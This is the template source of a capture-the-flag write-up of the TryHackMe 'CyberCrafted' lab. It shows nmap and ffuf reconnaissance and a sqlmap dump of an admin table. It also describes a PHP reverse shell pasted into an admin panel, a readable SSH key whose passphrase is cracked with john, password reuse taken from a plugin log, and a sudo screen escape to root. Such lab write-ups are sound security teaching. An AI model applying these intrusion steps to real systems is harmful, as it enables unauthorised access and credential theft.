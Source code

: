 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.11.140", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-15 23:49 CET
Nmap scan report for 10.10.11.140
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:ce:b9:ac:72:8a:d7:a6:b7:8e:45:d0:ce:3c:00 (RSA)
|   256 e9:e7:33:8a:77:28:2c:d4:8c:6d:8a:2c:e7:88:95:30 (ECDSA)
|_  256 76:a2:b1:cf:1b:3d:ce:6c:60:f5:63:24:3e:ef:70:d8 (ED25519)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://cybercrafted.thm/
|_http-server-header: Apache/2.4.29 (Ubuntu)
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.40 seconds")}}

{{text("We discover 3 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)', '25565 (minecraft)'])}}

{{text("We visit the website on port 80.")}}

{{text("It redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cybercrafted.thm</code>, so let's add that entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file.")}}

{{image("../../static/writeups/cybercrafted/images/000001.jpg")}}

{{header("Enumerating subdomains", "enumerating-subdomains")}}

{{text("The question asks if there are any subdomains, let's check for them.")}}

{{console("ffuf -u http://cybercrafted.thm -H 'Host: FUZZ.cybercrafted.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cybercrafted.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Header           : Host: FUZZ.cybercrafted.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                   [Status: 200, Size: 937, Words: 218, Lines: 31, Duration: 77ms]
Admin                   [Status: 200, Size: 937, Words: 218, Lines: 31, Duration: 77ms]
ADMIN                   [Status: 200, Size: 937, Words: 218, Lines: 31, Duration: 77ms]
store                   [Status: 403, Size: 287, Words: 20, Lines: 10, Duration: 78ms]
www                     [Status: 200, Size: 832, Words: 236, Lines: 35, Duration: 72ms]
:: Progress: [4614/4614] :: Job [1/1] :: 520 req/sec :: Duration: [0:00:15] :: Errors: 0 ::")}}

{{text("We find 3 subdomains, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>admin</code>, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>store</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>www</code>.")}}

{{text("Now we can add these subdomains to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file and look for the vulnerability from the next question.")}}

{{text("I was enumerating directories on these subdomains and found an interesting looking search form in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://store.cybercrafted.thm/search.php</code>.")}}

{{text("Let's check if SQL injection is possible using a tool called <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sqlmap</code>.")}}

{{text("I caught a request using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Burp</code> and saved it into a file.")}}

{{text("Let us now run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sqlmap</code> with our request.")}}

{{console("sqlmap -r request.txt --dbs --dump", "
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
...
Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | [REDACTED]                               | xXUltimateCreeperXx |
| 4  | THM{[REDACTED]}                          | web_flag            |
+----+------------------------------------------+---------------------+")}}

{{text("We find a flag and a password hash for the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xXUltimateCreeperXx</code>.")}}

{{text("By visiting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hashes.com</code> we can get the plaintext password.")}}

{{text("With our newly acquired password, we can continue to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://admin.cybercrafted.thm</code> and log in.")}}

{{text("In here is a panel for running system commands.")}}

{{image("../../static/writeups/cybercrafted/images/000002.jpg")}}

{{text("Every command I tried worked, so I tried pasting in a PHP exec reverse shell from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code>.")}}

{{text("To my surprise, it worked flawlessly, which I did not expect")}}

{{image("../../static/writeups/cybercrafted/images/000003.jpg")}}

{{header("Shell as xxultimatecreeperxx", "shell-as-xxultimatecreeperxx")}}

{{text("I started looking around the file system and noticed something strange.")}}

{{text("I could just... read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> key of user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xxultimatecreeperxx</code>???")}}

{{image("../../static/writeups/cybercrafted/images/000004.jpg")}}

{{text("This doesn't feel like a medium difficulty machine, but I'm not complaining.")}}

{{text("Let's copy this key and log in as our new user.")}}

{{image("../../static/writeups/cybercrafted/images/000005.jpg")}}

{{text("I could have expected a passphrase. We use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh2john</code> on the file, save the output into a file and brute-force the passphrase using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code>.")}}

{{image("../../static/writeups/cybercrafted/images/000006.jpg")}}

{{text("Now we should be able to log in as our new user.")}}

{{header("Shell as cybercrafted", "shell-as-cybercrafted")}}

{{text("Looking through the system, I stumbled upon a flag in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/minecraft/minecraft_server_flag.txt</code>.")}}

{{text("There was also a note.")}}

{{console("cat note.txt", "Just implemented a new plugin within the server so now non-premium Minecraft accounts can game too! :)
- cybercrafted

P.S
Will remove the whitelist soon.")}}

{{text("Going further, we find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>plugins</code> folder and in it a plugin that the note is probably about, as well as the next question.")}}

{{text("In the folder of the plugin, we find an interesting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>passwords.yml</code> file, but unfortunately the hash of user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cybercrafted</code> is unbreakable.")}}

{{text("But the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>log.txt</code> file is even more interesting.")}}

{{console("cat log.txt", "[2021/06/27 11:25:07] [BUKKIT-SERVER] Startet LoginSystem!                                                                                         
[2021/06/27 11:25:16] cybercrafted registered. PW: [REDACTED]                                                                           
[2021/06/27 11:46:30] [BUKKIT-SERVER] Startet LoginSystem!                                                                                         
[2021/06/27 11:47:34] cybercrafted logged in. PW: [REDACTED]                                                                            
[2021/06/27 11:52:13] [BUKKIT-SERVER] Startet LoginSystem!                                                                                         
[2021/06/27 11:57:29] [BUKKIT-SERVER] Startet LoginSystem!                                                                                                                             
[2021/06/27 11:57:54] cybercrafted logged in. PW: [REDACTED]                                                                                                                 
[2021/06/27 11:58:38] [BUKKIT-SERVER] Startet LoginSystem!                                                                                                                             
[2021/06/27 11:58:46] cybercrafted logged in. PW: [REDACTED]                                                                                                                 
[2021/06/27 11:58:52] [BUKKIT-SERVER] Startet LoginSystem!                                                                                                                             
[2021/06/27 11:59:01] madrinch logged in. PW: Password123


[2021/10/15 17:13:45] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 20:36:21] [BUKKIT-SERVER] Startet LoginSystem!
[2021/10/15 21:00:43] [BUKKIT-SERVER] Startet LoginSystem!")}}

{{text("Let's check if this user reuses his passwords and try to log in as him.")}}

{{image("../../static/writeups/cybercrafted/images/000007.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since I had my user's password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted")}}

{{text("According to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFOBins</code>, we should be able to become root just by using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo /usr/bin/screen</code>, but because of the additional parameters it doesn't happen.")}}

{{text("After searching for a little bit, we a thread about the same problem.")}}

{{link("https://stackoverflow.com/questions/4847691/how-do-i-get-out-of-screen-without-typing-exit", "https://cdn.sstatic.net/Sites/stackoverflow/Img/favicon.ico?v=ec617d715196", "How do I get out of 'screen' without typing 'exit'?")}}

{{text("The last comment answers our question.")}}

{{text("We simply press <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Control + A</code> and then <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Control + C</code> to escape.")}}

{{text("Now we simply read the flag.")}}

{{image("../../static/writeups/cybercrafted/images/000008.jpg")}}

{{script()}}
